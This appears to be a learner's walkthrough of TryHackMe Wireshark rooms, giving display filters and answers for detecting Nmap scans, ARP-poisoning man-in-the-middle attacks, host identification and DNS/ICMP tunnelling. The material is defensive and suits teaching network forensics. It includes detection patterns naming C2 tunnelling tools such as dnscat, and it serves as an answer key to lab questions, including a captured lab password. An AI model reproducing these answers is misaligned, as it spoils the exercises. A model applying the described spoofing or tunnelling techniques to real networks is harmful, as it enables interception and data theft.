<table class="table table-bordered" style="width:1075.56px"><tbody><tr><td>Filter </td><td style="text-align:left"><b>matches</b> </td></tr><tr><td>Type</td><td style="text-align:left">Comparison Operator </td></tr><tr><td>Description</td><td style="text-align:left">Search a pattern of a regular expression. It is case insensitive, and complex queries have a margin of error. </td></tr><tr><td><b>Example</b></td><td style="text-align:left">Find all .php and .html pages. </td></tr><tr><td>Workflow</td><td style="text-align:left">List all HTTP packets where packets' "host" fields match keywords ".php" or ".html". </td></tr><tr><td><b>Usage</b></td><td style="text-align:left">
<code>http.host matches "\.(php|html)"</code>
</td></tr></tbody></table>

**Filter: "in"**

<table class="table table-bordered" style="width:1075.56px"><tbody><tr><td>Filter </td><td style="text-align:left"><b>in</b> </td></tr><tr><td>Type</td><td style="text-align:left">&nbsp;Set Membership </td></tr><tr><td>Description</td><td style="text-align:left">Search a value or field inside of a specific scope/range. </td></tr><tr><td>Example</td><td style="text-align:left">Find all packets that use ports 80, 443 or 8080. </td></tr><tr><td>Workflow</td><td style="text-align:left">List all TCP packets where packets' "port" fields have values 80, 443 or 8080. </td></tr><tr><td>Usage</td><td style="text-align:left">
<code>tcp.port in {80 443 8080}</code>
</td></tr></tbody></table>

**Filter: "upper"**

<table class="table table-bordered" style="width:1075.56px"><tbody><tr><td>Filter </td><td style="text-align:left"><b>upper</b> </td></tr><tr><td>Type</td><td style="text-align:left">Function </td></tr><tr><td>Description</td><td style="text-align:left">Convert a string value to uppercase. </td></tr><tr><td>Example</td><td style="text-align:left">Find all "APACHE" servers. </td></tr><tr><td>Workflow</td><td style="text-align:left">Convert all HTTP packets' "server" fields to uppercase and list packets that contain the "APACHE" keyword. </td></tr><tr><td>Usage</td><td style="text-align:left">
<code>upper(http.server) contains "APACHE"</code>
</td></tr></tbody></table>

**Filter: "lower"**

<table class="table table-bordered" style="width:1075.56px"><tbody><tr><td>Filter </td><td style="text-align:left"><b>lower</b> </td></tr><tr><td>Type</td><td style="text-align:left">Function </td></tr><tr><td>Description</td><td style="text-align:left">Convert a string value to lowercase. </td></tr><tr><td>Example</td><td style="text-align:left">Find all "apache" servers. </td></tr><tr><td>Workflow</td><td style="text-align:left">Convert all HTTP packets' "server" fields info to lowercase and list packets that contain the "apache" keyword. </td></tr><tr><td><b>Usage</b></td><td style="text-align:left">
<code>lower(http.server) contains "apache"</code>
</td></tr></tbody></table>

**Filter: "string"**

<table class="table table-bordered" style="width:1075.56px"><tbody><tr><td>Filter </td><td style="text-align:left"><b>string</b> </td></tr><tr><td>Type</td><td style="text-align:left">Function </td></tr><tr><td>Description</td><td style="text-align:left">Convert a non-string value to a string. </td></tr><tr><td>Example</td><td style="text-align:left">Find all frames with odd numbers. </td></tr><tr><td>Workflow</td><td style="text-align:left">Convert all "frame number" fields to string values, and list frames end with odd values. </td></tr><tr><td>Usage</td><td style="text-align:left">
<code>string(frame.number) matches "[13579]$"</code>
</td></tr></tbody></table>

**Bookmarks and Filtering Buttons**

We've covered different types of filtering options, operators and functions. It is time to create filters and save them as bookmarks and buttons for later usage. As mentioned in the previous task, the filter toolbar has a filter bookmark section to save user-created filters, which helps analysts re-use favourite/complex filters with a couple of clicks. Similar to bookmarks, you can create filter buttons ready to apply with a single click. 

Creating and using bookmarks.

Creating and using display filter buttons.

**Profiles**

Wireshark is a multifunctional tool that helps analysts to accomplish in-depth packet analysis. As we covered during the room, multiple preferences need to be configured to analyse a specific event of interest. It is cumbersome to re-change the configuration for each investigation case, which requires a different set of colouring rules and filtering buttons. This is where Wireshark profiles come into play. You can create multiple profiles for different investigation cases and use them accordingly. You can use the **"Edit --> Configuration Profiles"** menu or the **"lower right bottom of the status bar --> Profile"** section to create, modify and change the profile configuration.

**Questions**

Find all Microsoft IIS servers. What is the number of packets that did not originate from "port 80"?

- Start Wireshark
- Open Exercise.pcapng from desktop
- Display filter
- `(http.server contains "Microsoft-IIS") && !(tcp.srcport == 80)`
- 21

Find all Microsoft IIS servers. What is the number of packets that have "version 7.5"?

- `(http.server contains "Microsoft-IIS/7.5")`
- 71

What is the total number of packets that use ports 3333, 4444 or 9999?

- `tcp.port in { 3333 4444 9999}`
- 2235

What is the number of packets with "even TTL numbers"?

- `string (ip.ttl) matches "[24680]$"`
- 77289

Change the profile to "Checksum Control". What is the number of "Bad TCP Checksum" packets?

- `tcp.checksum.status == "Bad"`
- 34185

Use the existing filtering button to filter the traffic. What is the number of displayed packets?

- Look to the right of the Display filter bar for `gif/jpeg with http-200` and click that
- The applied filter is 
- `(http.response.code == 200 ) && (http.content_type matches "image(gif||jpeg)")`
- 261

# **Wireshark: Traffic Analysis**

## _**1: Introduction**_
In this room, we will cover the techniques and key points of traffic analysis with Wireshark and detect suspicious activities. Note that this is the third and last room of the Wireshark room trio, and it is suggested to visit the first two rooms stated below to practice and refresh your Wireshark skills before starting this one.

- [**Wireshark: The Basics**](https://tryhackme.com/room/wiresharkthebasics)
- [**Wireshark: Packet Operations**](https://tryhackme.com/room/wiresharkpacketoperations)

In the first two rooms, we have covered how to use Wireshark and do packet-level searches. Now, it is time to investigate and correlate the packet-level information to see the big picture in the network traffic, like detecting anomalies and malicious activities. For a security analyst, it is vital to stop and understand pieces of information spread in packets by applying the analyst's knowledge and tool functionality. This room will cover investigating packet-level details by synthesising the analyst knowledge and  Wireshark functionality for detecting anomalies and odd situations for a given case.

## _**2: Nmap Scans**_

Nmap is an industry-standard tool for mapping networks, identifying live hosts and discovering the services. As it is one of the most used network scanner tools, a security analyst should identify the network patterns created with it. This section will cover identifying the most common Nmap scan types.

- TCP connect scans
- SYN scans
- UDP scans

It is essential to know how Nmap scans work to spot scan activity on the network. However, it is impossible to understand the scan details without using the correct filters. Below are the base filters to probe Nmap scan behaviour on the network. 

**TCP flags in a nutshell.**

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filters</b></td></tr><tr><td>Global search.</td><td><ul><li style="text-align:left"><code>tcp</code></li></ul><ul><li style="text-align:left"><code>udp</code></li></ul></td></tr><tr><td><ul><li style="text-align:left">Only SYN flag.</li><li style="text-align:left">SYN flag is set. The rest of the bits are not important.</li></ul></td><td><ul><li style="text-align:left"><code>tcp.flags == 2</code></li></ul><ul><li style="text-align:left"><code>tcp.flags.syn == 1</code></li></ul></td></tr><tr><td><ul><li style="text-align:left">Only ACK flag.</li><li style="text-align:left">ACK flag is set. The rest of the bits are not important. </li></ul></td><td><ul><li style="text-align:left"><code>tcp.flags == 16</code></li></ul><ul><li style="text-align:left"><code>tcp.flags.ack == 1</code></li></ul></td></tr><tr><td><ul><li style="text-align:left">Only SYN, ACK flags.</li><li style="text-align:left">SYN and ACK are set. The rest of the bits are not important.</li></ul></td><td><ul><li style="text-align:left"><code>tcp.flags == 18</code></li></ul><ul><li style="text-align:left"><code>(tcp.flags.syn == 1) and (tcp.flags.ack == 1)</code></li></ul></td></tr><tr><td><ul><li style="text-align:left">Only RST flag.</li><li style="text-align:left">RST flag is set. The rest of the bits are not important. </li></ul></td><td>
 
<ul><li style="text-align:left"><code>tcp.flags == 4</code></li></ul><ul><li style="text-align:left"><code>tcp.flags.reset == 1</code></li></ul></td></tr><tr><td><ul><li style="text-align:left">Only RST, ACK flags.</li><li style="text-align:left">RST and ACK are set. The rest of the bits are not important. </li></ul></td><td><ul><li style="text-align:left"><code>tcp.flags == 20</code></li></ul><ul><li style="text-align:left"><code>(tcp.flags.reset == 1) and (tcp.flags.ack == 1)</code></li></ul></td></tr><tr><td><ul><li style="text-align:left">Only FIN flag</li><li style="text-align:left">FIN flag is set. The rest of the bits are not important.</li></ul></td><td><ul><li style="text-align:left"><code style="font-size:14px">tcp.flags == 1</code></li></ul><ul><li style="text-align:left"><code style="font-size:14px">tcp.flags.fin == 1</code></li></ul></td></tr></tbody></table>

TCP Connect Scans  

**TCP Connect Scan in a nutshell:**

- Relies on the three-way handshake (needs to finish the handshake process).
- Usually conducted with `nmap -sT` command.
- Used by non-privileged users (only option for a non-root user).
- Usually has a windows size larger than 1024 bytes as the request expects some data due to the nature of the protocol.

<table class="table table-bordered"><tbody><tr><td><b>Open TCP Port</b></td><td><b>Open TCP Port </b></td><td><b>Closed TCP Port</b> </td></tr><tr><td><ul><li style="text-align:left">SYN --&gt;</li><li style="text-align:left">&lt;-- SYN, ACK</li><li style="text-align:left">ACK --&gt; </li></ul></td><td><ul><li style="text-align:left">SYN --&gt;</li><li style="text-align:left">&lt;-- SYN, ACK</li><li style="text-align:left">ACK --&gt;</li><li style="text-align:left">RST, ACK --&gt; </li></ul></td><td><ul><li style="text-align:left">SYN --&gt;</li><li style="text-align:left">&lt;-- RST, ACK </li></ul></td></tr></tbody></table>

The images below show the three-way handshake process of the open and close TCP ports. Images and pcap samples are split to make the investigation easier and understand each case's details.

Open TCP port (Connect):

Closed TCP port (Connect):

The above images provide the patterns in isolated traffic. However, it is not always easy to spot the given patterns in big capture files. Therefore analysts need to use a generic filter to view the initial anomaly patterns, and then it will be easier to focus on a specific traffic point. The given filter shows the TCP Connect scan patterns in a capture file.

`tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024`

**SYN Scans**  

TCP SYN Scan in a nutshell:

- Doesn't rely on the three-way handshake (no need to finish the handshake process).
- Usually conducted with `nmap -sS` command.
- Used by privileged users.
- Usually have a size less than or equal to 1024 bytes as the request is not finished and it doesn't expect to receive data.

<table class="table table-bordered"><tbody><tr><td><b>Open TCP Port</b></td><td><b>Close TCP Port</b></td></tr><tr><td><ul><li style="text-align:left">SYN --&gt;</li><li style="text-align:left">&lt;-- SYN,ACK</li><li style="text-align:left">RST--&gt;</li></ul></td><td><ul><li style="text-align:left">SYN --&gt;</li><li style="text-align:left">&lt;-- RST,ACK</li></ul></td></tr></tbody></table>

Open TCP port (SYN):

Closed TCP port (SYN):

The given filter shows the TCP SYN scan patterns in a capture file.

`tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size <= 1024`

**UDP Scans**

UDP Scan in a nutshell:

- Doesn't require a handshake process
- No prompt for open ports
- ICMP error message for closed ports
- Usually conducted with `nmap -sU` command.

<table class="table table-bordered"><tbody><tr><td>Open UDP Port </td><td>Closed UDP Port </td></tr><tr><td><ul><li style="text-align:left">UDP packet --&gt;</li></ul></td><td><ul><li style="text-align:left">UDP packet --&gt;</li><li style="text-align:left">ICMP Type 3, Code 3 message. (Destination unreachable, port unreachable)</li></ul></td></tr></tbody></table>

Closed (port no 69) and open (port no 68) UDP ports:

The above image shows that the closed port returns an ICMP error packet. No further information is provided about the error at first glance, so how can an analyst decide where this error message belongs? The ICMP error message uses the original request as encapsulated data to show the source/reason of the packet. Once you expand the ICMP section in the packet details pane, you will see the encapsulated data and the original request, as shown in the below image.

The given filter shows the UDP scan patterns in a capture file.  

`icmp.type==3 and icmp.code==3`

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

**Questions**

Use the "Desktop/exercise-pcaps/nmap/Exercise.pcapng" file.

- Start Wireshark
- open file

What is the total number of the "TCP Connect" scans?

- `tcp.flags.syn==1 and tcp.flags.ack==0 and tcp.window_size > 1024`
- 1000

Which scan type is used to scan the TCP port 80?

- `tcp.port==80`
- shows 2 scans, first is tcp connect, second is tcp syn
- tcp connect

How many "UDP close port" messages are there?

- `icmp.type==3 and icmp.code==3`
- `icmp.code==3` also works
- 1083

Which UDP port in the 55-70 port range is open?

- **Hint:** Remember, half of the traffic analysis is done by hand when using Wireshark. Filter the traffic as shown in the task, then filter the destination port (UDP) with the "filter a column" option. Finally, scroll the bar in the packet list section and investigate the findings manually.
- `udp.port >=55 && udp.port <=70`
- `udp.port in {55..70}` also works and is easier to read
- scroll and find the open port
- 68

## _**3: ARP Poisoning & Man In The Middle!**_

ARP Poisoning/Spoofing (A.K.A. Man In The Middle Attack)  

**ARP** protocol, or **A**ddress **R**esolution **P**rotocol (**ARP**), is the technology responsible for allowing devices to identify themselves on a network. Address Resolution Protocol Poisoning (also known as ARP Spoofing or Man In The Middle (MITM) attack) is a type of attack that involves network jamming/manipulating by sending malicious ARP packets to the default gateway. The ultimate aim is to manipulate the **"IP to MAC address table"** and sniff the traffic of the target host.

There are a variety of tools available to conduct ARP attacks. However, the mindset of the attack is static, so it is easy to detect such an attack by knowing the ARP protocol workflow and Wireshark skills. 

**ARP analysis in a nutshell:**

- Works on the local network
- Enables communication between MAC addresses
- Not a secure protocol
- Not a routable protocol
- It doesn't have an authentication function
- Common patterns are request & response, announcement, and gratuitous packets.

Before investigating the traffic, let's review some legitimate and suspicious ARP packets. The legitimate requests are similar to the shown picture: a broadcast request that asks if any of the available hosts use an IP address and a reply from the host that uses the particular IP address.

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark filter</b></td></tr><tr><td>Global search</td><td><ul><li style="text-align:left"><code>arp</code></li></ul></td></tr><tr><td>
"ARP"&nbsp;options for grabbing low-hanging fruit:
<ul style="text-align:left"><li>Opcode 1: ARP requests.</li><li>Opcode 2: ARP responses.</li><li><b>Hunt:</b> Arp scanning</li><li><b>Hunt:</b> Possible ARP poisoning detection</li><li><b>Hunt:</b> Possible ARP flooding from detection:</li></ul></td><td><ul><li style="text-align:left"><code>arp.opcode == 1</code></li></ul><ul><li style="text-align:left"><code>arp.opcode == 2</code></li></ul><ul><li style="text-align:left"><code>arp.dst.hw_mac==00:00:00:00:00:00</code></li></ul><ul><li style="text-align:left"><code>arp.duplicate-address-detected or arp.duplicate-address-frame</code></li></ul><ul><li style="text-align:left"><code>((arp) &amp;&amp; (arp.opcode == 1)) &amp;&amp; (arp.src.hw_mac == target-mac-address)</code> </li></ul></td></tr></tbody></table>

A suspicious situation means having two different ARP responses (conflict) for a particular IP address. In that case, Wireshark's expert info tab warns the analyst. However, it only shows the second occurrence of the duplicate value to highlight the conflict. Therefore, identifying the malicious packet from the legitimate one is the analyst's challenge. A possible IP spoofing case is shown in the picture below.

Here, knowing the network architecture and inspecting the traffic for a specific time frame can help detect the anomaly. As an analyst, you should take notes of your findings before going further. This will help you be organised and make it easier to correlate further findings. Look at the given picture; there is a conflict; the MAC address that ends with "b4" crafted an ARP request with the "192.168.1.25" IP address, then claimed to have the "192.168.1.1" IP address.  

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td>Detection Notes </td><td><b>Findings</b></td></tr><tr><td>Possible IP address match. </td><td style="text-align:left">1 IP address announced from a MAC address. </td><td><ul><li style="text-align:left">MAC: 00:0c:29:e2:18:b4</li><li style="text-align:left">IP: 192.168.1.25</li></ul></td></tr><tr><td>Possible ARP spoofing attempt. </td><td>
2 MAC addresses claimed the same IP address (192.168.1.1). The " 192.168.1.1" IP address is a possible gateway address. 
</td><td><ul><li style="text-align:left">MAC1: 50:78:b3:f3:cd:f4</li><li style="text-align:left">MAC 2: 00:0c:29:e2:18:b4</li></ul></td></tr><tr><td>Possible ARP flooding attempt. </td><td style="text-align:left">The MAC address that ends with "b4" claims to have a different/new IP address. </td><td><ul><li style="text-align:left">MAC: 00:0c:29:e2:18:b4</li><li style="text-align:left">IP: 192.168.1.1</li></ul></td></tr></tbody></table>

Let's keep inspecting the traffic to spot any other anomalies. Note that the case is split into multiple capture files to make the investigation easier.

At this point, it is evident that there is an anomaly. A security analyst cannot ignore a flood of ARP requests. This could be malicious activity, scan or network problems. There is a new anomaly; the MAC address that ends with "b4" crafted multiple ARP requests with the "192.168.1.25" IP address. Let's focus on the source of this anomaly and extend the taken notes.

<table class="table table-bordered"><tbody><tr><td>Notes</td><td>Detection Notes</td><td>Findings</td></tr><tr><td style="text-align:center">Possible IP address match. </td><td style="text-align:left">1 IP address announced from a MAC address. </td><td>

<ul><li style="text-align:left">MAC: 00:0c:29:e2:18:b4</li><li style="text-align:left">IP: 192.168.1.25</li></ul>

</td></tr><tr><td style="text-align:center">Possible ARP spoofing attempt. </td><td>

2 MAC addresses claimed the same IP address (192.168.1.1).

The " 192.168.1.1" IP address is a possible gateway address.

</td><td><ul><li style="text-align:left">MAC 1: 50:78:b3:f3:cd:f4</li><li style="text-align:left">MAC 2: 00:0c:29:e2:18:b4</li></ul></td></tr><tr><td style="text-align:center">Possible ARP spoofing attempt. </td><td style="text-align:left">The MAC address that ends with "b4" claims to have a different/new IP address. </td><td><ul><li style="text-align:left">MAC: 00:0c:29:e2:18:b4</li><li style="text-align:left">IP: 192.168.1.1</li></ul></td></tr><tr><td style="text-align:center">Possible ARP flooding attempt. </td><td style="text-align:left">The MAC address that ends with "b4" crafted multiple ARP requests against a range of IP addresses.</td><td><ul><li style="text-align:left">MAC: 00:0c:29:e2:18:b4</li><li style="text-align:left">IP: 192.168.1.xxx</li></ul></td></tr></tbody></table>

Up to this point, it is evident that the MAC address that ends with "b4" owns the "192.168.1.25" IP address and crafted suspicious ARP requests against a range of IP addresses. It also claimed to have the possible gateway address as well. Let's focus on other protocols and spot the reflection of this anomaly in the following sections of the time frame.

There is HTTP traffic, and everything looks normal at the IP level, so there is no linked information with our previous findings. Let's add the MAC addresses as columns in the packet list pane to reveal the communication behind the IP addresses.

One more anomaly! The MAC address that ends with "b4" is the destination of all HTTP packets! It is evident that there is a MITM attack, and the attacker is the host with the MAC address that ends with "b4". All traffic linked to "192.168.1.12" IP addresses is forwarded to the malicious host. Let's summarise the findings before concluding the investigation.  

<table class="table table-bordered"><tbody><tr><td>Detection Notes</td><td>Findings</td></tr><tr><td>IP to MAC matches.</td><td style="text-align:left">3&nbsp; IP to MAC address matches.&nbsp;</td><td>

<ul><li style="text-align:left">MAC: 00:0c:29:e2:18:b4 =&nbsp;IP: 192.168.1.25</li><li style="text-align:left">MAC: 50:78:b3:f3:cd:f4 = IP: 192.1681.1</li><li style="text-align:left">MAC:00:0c:29:98:c7:a8 = IP: 192.168.1.12</li></ul>

</td></tr><tr><td>Attacker</td><td style="text-align:left">The attacker created noise with ARP packets. </td><td style="text-align:left"><ul><li>MAC: 00:0c:29:e2:18:b4 = IP: 192.168.1.25 </li></ul></td></tr><tr><td>Router/gateway </td><td style="text-align:left">Gateway address. </td><td><ul><li style="text-align:left">MAC: 50:78:b3:f3:cd:f4 = IP: 192.1681.1 </li></ul></td></tr><tr><td>Victim </td><td style="text-align:left">The attacker sniffed all traffic of the victim.</td><td><ul><li style="text-align:left">MAC: 50:78:b3:f3:cd:f4 = IP: 192.1681.12</li></ul></td></tr></tbody></table>

Detecting these bits and pieces of information in a big capture file is challenging. However, in real-life cases, you will not have "tailored data" ready for investigation. Therefore you need to have the analyst mindset, knowledge and tool skills to filter and detect the anomalies. 

Note: In traffic analysis, there are always alternative solutions available. The solution type and the approach depend on the analyst's knowledge and skill level and the available data sources. 

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

**Questions**

Use the "Desktop/exercise-pcaps/arp/Exercise.pcapng" file.

- Start Wireshark
- Open pcap file

What is the number of ARP requests crafted by the attacker?

- `(arp.opcode == 1) && (arp.src.hw_mac == 00:0c:29:e2:18:b4)`
- Bottom right of window Displayed:
- 284

What is the number of HTTP packets received by the attacker?

- `(http) && (eth.dst == 00:0c:29:e2:18:b4)`
- Bottom right of window Displayed:
- 90

What is the number of sniffed username&password entries?

- `(http contains uname) && (http.request.uri == "/userinfo.php")`
- 6

What is the password of the "Client986"?

- `(http contains uname) && (urlencoded-form.value == "client986")`
- `http matches Client986` could also be used, `matches` isn't case sensitive
- Expand the HTML Form URL Encoded section -> Form item: "pass"
- clientnothere!

What is the comment provided by the "Client354"?

- `http matches Client354`
- Expand the HTML Form URL Encoded section -> Form item: "comment"
- Nice work!

## _**4: Identifying Hosts: DHCP, NetBIOS and Kerberos**_

Identifying Hosts  

When investigating a compromise or malware infection activity, a security analyst should know how to identify the hosts on the network apart from IP to MAC address match. One of the best methods is identifying the hosts and users on the network to decide the investigation's starting point and list the hosts and users associated with the malicious traffic/activity.

Usually, enterprise networks use a predefined pattern to name users and hosts. While this makes knowing and following the inventory easier, it has good and bad sides. The good side is that it will be easy to identify a user or host by looking at the name. The bad side is that it will be easy to clone that pattern and live in the enterprise network for adversaries. There are multiple solutions to avoid these kinds of activities, but for a security analyst, it is still essential to have host and user identification skills.  

Protocols that can be used in Host and User identification:

- Dynamic Host Configuration Protocol (DHCP) traffic
- NetBIOS (NBNS) traffic 
- Kerberos traffic

**DHCP Analysis**

**DHCP** protocol, or **D**ynamic **H**ost **C**onfiguration **P**rotocol **(DHCP)****,** is the technology responsible for managing automatic IP address and required communication parameters assignment.  

**DHCP investigation in a nutshell:**

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td style="text-align:center">Global search.</td><td><ul><li style="text-align:left"><code>dhcp</code> or <code>bootp</code></li></ul></td></tr><tr><td style="text-align:left">Filtering the proper DHCP packet options is vital to finding an event of interest.&nbsp;  <ul><li style="text-align:left"><b>"DHCP Request"</b> packets contain the hostname information</li><li style="text-align:left"><b>"DHCP ACK"</b> packets represent the accepted requests</li><li style="text-align:left"><b>"DHCP NAK"</b> packets represent denied requests</li></ul>
Due to the nature of the protocol, only "Option 53" ( request type) has predefined static values. You should filter the packet type first, and then you can filter the rest of the options by "applying as column" or use the advanced filters like "contains" and "matches". 
</td><td>

<ul><li style="text-align:left">Request: <code>dhcp.option.dhcp == 3</code></li></ul><ul><li style="text-align:left">ACK: <code>dhcp.option.dhcp == 5</code></li></ul><ul><li style="text-align:left">NAK: <code>dhcp.option.dhcp == 6</code></li></ul>

</td></tr><tr><td style="text-align:left">
<b>"DHCP Request"</b> options for grabbing the low-hanging fruits:
<ul><li><b>Option 12:</b> Hostname.</li><li><b>Option 50:</b> Requested IP address.</li><li><b>Option 51:</b> Requested IP lease time.</li><li><b>Option 61: </b>Client's MAC address.</li></ul></td><td style="text-align:left"><ul><li><code>dhcp.option.hostname contains "keyword"</code></li></ul></td></tr><tr><td>
<b>"DHCP ACK"</b> options for grabbing the low-hanging fruit:
<ul style="text-align:left"><li><b>Option 15:</b> Domain name.</li><li><b>Option 51:</b> Assigned IP lease time.</li></ul></td><td style="text-align:left"><ul><li><code>dhcp.option.domain_name contains "keyword"</code></li></ul></td></tr><tr><td>
<b>"DHCP NAK"</b> options for grabbing the low-hanging fruit:
<ul style="text-align:left"><li><b>Option 56:</b> Message (rejection details/reason).</li></ul></td><td style="text-align:left">
As the message could be unique according to the case/situation, It is suggested to read the message instead of filtering it. Thus, the analyst could create a more reliable hypothesis/result by understanding the event circumstances.
</td></tr></tbody></table>

NetBIOS (NBNS) Analysis

**NetBIOS** or **Net**work **B**asic **I**nput/**O**utput **S**ystem is the technology responsible for allowing applications on different hosts to communicate with each other. 

**NBNS investigation in a nutshell:**

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td>Global search.</td><td><ul><li style="text-align:left"><code>nbns</code></li></ul></td></tr><tr><td>
"NBNS"&nbsp;options for grabbing the low-hanging fruit:
<ul style="text-align:left"><li><b>Queries:</b> Query details.</li><li>Query details could contain <b>"name, Time to live (TTL) and IP address details"</b></li></ul></td><td><ul><li style="text-align:left"><code>nbns.name contains "keyword"</code></li></ul></td></tr></tbody></table>

Kerberos Analysis  

**Kerberos** is the default authentication service for Microsoft Windows domains. It is responsible for authenticating service requests between two or more computers over the untrusted network. The ultimate aim is to prove identity securely.  

**Kerberos investigation in a nutshell:**

<table class="table table-bordered" style="font-size:1rem"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td>Global search.</td><td><ul><li style="text-align:left"><code>kerberos</code></li></ul></td></tr><tr><td>
User account search:
<ul style="text-align:left"><li><b>CNameString: </b>The username.</li></ul>
<strong>Note:</strong>&nbsp;Some packets could provide hostname information in this field. To avoid this confusion, filter the<b> "$"</b> value. The values end with <b>"$"</b> are hostnames, and the ones without it are user names. 
</td><td><ul><li style="text-align:left"><code>kerberos.CNameString contains "keyword"</code>&nbsp;</li><li style="text-align:left"><code>kerberos.CNameString and !(kerberos.CNameString contains "$" )</code></li></ul></td></tr><tr><td>
"Kerberos"&nbsp;options for grabbing the low-hanging fruit:
<ul style="text-align:left"><li><b>pvno:</b> Protocol version.</li><li><b>realm:</b> Domain name for the generated ticket. </li><li><b>sname:</b> Service and domain name for the generated ticket.</li><li><b>addresses:</b> Client IP address and NetBIOS name. </li></ul>
<b style="font-size:1rem;text-align:center">Note:</b> the "addresses" information is only available in request packets.
</td><td><ul><li style="text-align:left"><code>kerberos.pvno == 5</code></li></ul><ul><li style="text-align:left"><code>kerberos.realm contains ".org"</code>&nbsp;</li></ul><ul><li style="text-align:left"><code>kerberos.SNameString == "krbtg"</code></li></ul></td></tr></tbody></table>

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

**Questions**

Use the "Desktop/exercise-pcaps/dhcp-netbios-kerberos/dhcp-netbios.pcap" file.

What is the MAC address of the host "Galaxy A30"?

- `dhcp.option.hostname contains "Galaxy"`
- Expand the Dynamic Host Configuration Protocol section -> expand option 12 Host Name -> look for correct host name. 
- 9a:81:41:cb:96:6c

How many NetBIOS registration requests does the "LIVALJM" workstation have?

- `nbns`
- look for a registration record containing LIVALJM -> grab the options we are looking for and filter again
- `(nbns.name contains "LIVALJM") && (nbns.flags.opcode == 5)`
- 16

Which host requested the IP address "172.16.13.85"?

- `(dhcp.option.dhcp == 3) && (dhcp.option.requested_ip_address == 172.16.13.85)`
- Expand the Dynamic Host Configuration Protocol section -> expand option 12 Host Name
- Galaxy-A12

Use the "Desktop/exercise-pcaps/dhcp-netbios-kerberos/kerberos.pcap" file.

What is the IP address of the user "u5"? (Enter the address in defanged format.)

- `kerberos.CNameString contains "u5"`
- expand Internet Protocol Version 4 -> Look for Source
- 10[.]1[.]12[.]2

What is the hostname of the available host in the Kerberos packets?

- `kerberos.CNameString contains "$"`
- Expand Kerberos -> expand tgs-rep -> expand cname -> expand cname-string -> look for CNameString
- xp1$

## _**5: Tunneling Traffic: DNS and ICMP**_

**Tunnelling Traffic: ICMP and DNS**

Traffic tunnelling is (also known as **"port forwarding"**) transferring the data/resources in a secure method to network segments and zones. It can be used for "internet to private networks" and "private networks to internet" flow/direction. There is an encapsulation process to hide the data, so the transferred data appear natural for the case, but it contains private data packets and transfers them to the final destination securely.  

Tunnelling provides anonymity and traffic security. Therefore it is highly used by enterprise networks. However, as it gives a significant level of data encryption, attackers use tunnelling to bypass security perimeters using the standard and trusted protocols used in everyday traffic like ICMP and DNS. Therefore, for a security analyst, it is crucial to have the ability to spot ICMP and DNS anomalies.

**ICMP Analysis**

Internet Control Message Protocol (ICMP) is designed for diagnosing and reporting network communication issues. It is highly used in error reporting and testing. As it is a trusted network layer protocol, sometimes it is used for denial of service (DoS) attacks; also, adversaries use it in data exfiltration and C2 tunnelling activities.

ICMP analysis in a nutshell:

Usually, ICMP tunnelling attacks are anomalies appearing/starting after a malware execution or vulnerability exploitation. As the ICMP packets can transfer an additional data payload, adversaries use this section to exfiltrate data and establish a C2 connection. It could be a TCP, HTTP or SSH connection. As the ICMP protocols provide a great opportunity to carry extra data, it also has disadvantages. Most enterprise networks block custom packets or require administrator privileges to create custom ICMP packets.

A large volume of ICMP traffic or anomalous packet sizes are indicators of ICMP tunnelling. Still, the adversaries could create custom packets that match the regular ICMP packet size (64 bytes), so it is still cumbersome to detect these tunnelling activities. However, a security analyst should know the normal and the abnormal to spot the possible anomaly and escalate it for further analysis.

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark filters</b></td></tr><tr><td>Global search</td><td><ul><li style="text-align:left"><code>icmp</code></li></ul></td></tr><tr><td>
"ICMP"&nbsp;options for grabbing the low-hanging fruits:
<ul style="text-align:left"><li>Packet length.</li><li>ICMP destination addresses. </li><li>Encapsulated protocol signs in ICMP payload.</li></ul></td><td><ul><li style="text-align:left"><code>data.len &gt; 64 and icmp</code></li></ul></td></tr></tbody></table>

**DNS Analysis**

Domain Name System (DNS) is designed to translate/convert IP domain addresses to IP addresses. It is also known as a phonebook of the internet. As it is the essential part of web services, it is commonly used and trusted, and therefore often ignored. Due to that, adversaries use it in data exfiltration and C2 activities.

DNS analysis in a nutshell:  

Similar to ICMP tunnels, DNS attacks are anomalies appearing/starting after a malware execution or vulnerability exploitation. Adversary creates (or already has) a domain address and configures it as a C2 channel. The malware or the commands executed after exploitation sends DNS queries to the C2 server. However, these queries are longer than default DNS queries and crafted for subdomain addresses. Unfortunately, these subdomain addresses are not actual addresses; they are encoded commands as shown below:  

**"encoded-commands.maliciousdomain.com"**

When this query is routed to the C2 server, the server sends the actual malicious commands to the host. As the DNS queries are a natural part of networking activity, these packets have the chance of not being detected by network perimeters. A security analyst should know how to investigate the DNS packet lengths and target addresses to spot these anomalies.

<table class="table table-bordered"><tbody><tr><td><b>Notes</b></td><td><b>Wireshark Filter</b></td></tr><tr><td>Global search</td><td><ul><li style="text-align:left"><code>dns</code></li></ul></td></tr><tr><td>
"DNS"&nbsp;options for grabbing the low-hanging fruits:
<ul style="text-align:left"><li>Query length.</li><li>Anomalous and non-regular names in DNS addresses.</li><li>Long DNS addresses with encoded subdomain addresses.</li><li>Known patterns like dnscat and dns2tcp.</li><li>Statistical analysis like the anomalous volume of DNS requests for a particular target.</li></ul>
<b>!mdns: </b>Disable local link device queries.
</td><td><ul><li style="text-align:left"><code>dns contains "dnscat"</code></li></ul><ul><li style="text-align:left"><code>dns.qry.name.len &gt; 15 and !mdns</code></li></ul></td></tr></tbody></table>

Detecting suspicious activities in chunked files is easy and a great way to learn how to focus on the details. Now use the exercise files to put your skills into practice against a single capture file and answer the questions below!

